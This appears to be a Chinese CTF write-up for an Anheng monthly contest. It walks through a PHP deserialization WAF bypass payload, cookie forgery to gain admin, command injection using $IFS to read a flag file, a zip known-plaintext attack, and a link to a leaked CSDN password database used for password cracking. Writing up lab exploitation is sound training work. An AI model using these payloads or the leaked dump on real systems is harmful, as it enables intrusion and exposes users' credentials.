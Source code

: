 [TOC]



# web1-easy

## 解题思路

首先打开题目链接，看到的是一段源代码

```php
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

通过查看源代码，可以发现，可以利用反序列化进行任意文件读取。

自带了一个baby类，里面的`_toString()` 可以使用`file_get_contents` 读取文件内容。

本地构造序列化：

```php
O:4:“baby”:1:{s:4:“file”;s:8:“flag.php”;}
```

由于存在过滤语句

```
preg_match('/[oc]:\d+:/i',$data,$matches);
```

因此需要绕过过滤。waf掉了`[oc]:` 数字

可以使用`+` 绕过，但是直接传入符合，会被服务器认为是空格，因此需要编码后传输。

最终的payload就是

```php
O:%2b4:"baby":1:{s:4:"file";s:8:"flag.php";}
```

输入url如下

```php
101.71.29.5:10027/?data=O:%2b4:"baby":1:{s:4:"file";s:8:"flag.php";}
```

查看源代码，可以发现flag

# web2-ezweb2

## 解题思路

首先打开页面，发现是一个cms的常规首页页面，源代码各方面未发现任何问题。

使用burp抓包。

发现首页页面在cookie中存在一个字段` user=dXNlcg%3D%3D` ，将`dXNlcg%3D%3D` 转码后，得到的内容是`user` 。

猜测这个可以更改为`admin` 来伪造管理员。将`admin` 使用base64转码，`YWRtaW4=` ，转码完成后篡改数据包。

![1547264443236](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264443236.png)

forward以后，会发现跳转到`/admin.php` 页面，同样cookie中还存在一个user字段，并且依然需要修改。

![1547264511102](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264511102.png)

成功进入管理后台页面。

![1547264541800](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264541800.png)

尝试输入内容，并抓包，发现这是一个命令行窗口。可以用来执行命令。但是经过尝试，过滤了空格。需要想办法绕过空格。

linux下，可以通过`$IFS` 来代替空格。因此构造payload

```
ls$IFS/
```

![1547264725787](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264725787.png)

可以发现，根目录有个文件叫做`ffLAG_404` ，我们查看这个文件

```
cat$IFS/ffLAG_404
```

成功拿到flag

# misc1-签到

## 题干

关注"安恒网络空间安全讲武堂",去寻找你的flag吧! 

## 解题思路

前往公众号，输入`flag`

回复说让回答一个急转弯:什么牛不会跑（打一动物），答案是蜗牛

然后又让输入：安恒杯月赛我来了

终于拿到flag

# misc2-学习资料

## 题干

你能发现这学习资料下的真实的东西么？ 

附件的下载链接：

https://xpro-adl.91ctf.com/userdownload?filename=5c19f90d2677e.zip&type=attach&feature=2018-12

## 解题思路

下载文件，是一个zip

打开以后发现其中有一个加密的zip文件和txt文件。

![1547451546550](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547451546550.png)

其中“只要学不死就往死里学”中也包含文件“备忘录.txt”。猜测这用到了zip的明文攻击。

使用winrar，将解压出来的“备忘录.txt”压缩为zip文件（一定要用winrar，不然加密算法不一致，会无法使用）

使用archpr 4.53的明文攻击模块，进行攻击。

![1547452165583](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547452165583.png)

最终得到文件口令`1qazmko098`

解压后，打开另一个word文档"学习资料.docx"

![1547452256355](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547452256355.png)

看到如上内容，将图片移开，看到flag

但是，无法复制。

直接将word文件以压缩文件的方式解压缩一遍，找到`word/document.xml`文件，里面有flag，直接复制提交即可。

# misc3-变换的指纹

## 题干

这是个粗心的出题人，压缩秘密都是直接复制来就往里塞 

一个压缩文件

## 解题思路

首先打开压缩文件，提示内容是

```
还记得那年的CSDN用户数据泄露时间吗？解压密码就在里边哦！
暴力破解是不明智的选择，要充分发挥百度或者谷歌的作用。
```

根据提示，果断找CSDN用户数据泄露时间点啊。找到是2011年12月21日，猜测密码是`20111221`，发现不是，果然太单纯。那就说明要撞库了，去下载csdn用户密码爆破吧。

csdn社工库的地址如下：

ed2k://|file|www.csdn.net.sql|287238395|7C81CC2A2B57411BD107ACFF2BA8DDEE|/ 

最后爆破出来的密码是`!(()!@)6125dou  `，注意最后有一个空格。

解压出来是一个gif文件。其中包含44个帧，每一帧包含一个数字。

最终将所有数字收集下来以后，得出如下字符串：



未解









